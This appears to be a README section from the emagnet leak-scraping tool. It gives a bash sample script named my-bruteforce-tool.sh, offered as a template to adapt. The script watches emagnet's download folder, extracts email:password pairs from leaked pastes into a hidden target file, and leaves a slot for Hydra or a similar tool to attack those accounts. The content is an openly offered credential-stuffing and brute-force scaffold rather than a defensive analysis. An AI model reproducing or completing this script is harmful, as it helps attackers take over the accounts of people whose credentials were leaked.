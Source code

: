 # A quick sample script for getting started with a script running beside emagnet: 
##### Mod it after your needs:

    cat > my-bruteforce-tool.sh <<EOF
 
    #!/bin/bash                               
    # inotify-tools is required for this sample
    
    # Where emagnet.conf is stored so you can read folders
    . /path/to/emagnet.conf                          

    # Where to place email + passwords we have found wich will be our target
    HYDRA_TARGETS="/tmp/.emagnet-hydra-targets.txt"          

    # When something happens in emagnet's temp folder  
    # then search for email+password combos and if something is found
    # then your command will be triggered and attack the targets.
    while inotifywait -e modify "${EMAGNETTEMP}"; do
    PASTEBIN_TARGETS=$(grep -rEiEio "\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,6}\b:...*" "${EMAGNETTEMP}"|awk '{print $1}'| \
         cut -d: -f2,3|uniq|grep -v ''\|'/'\|'"'\|','\|'<'\|'>'\|'\/'\|'\\'|grep -v '/' > "${HYDRA_TARGETS}")

        # If the target file is empty, then we monitor the dir again
        # until emagnet download new files otherwise use the prefered tool and attack your targets 
          if [[ -s "${HYDRA_TARGETS}" ]]; then
             <add your hydra or prefered tool here>
          fi
     done
    EOF
 
#### Change permissions so you are allowed to execute your script:
    chmod +x my-bruteforce-tool.sh

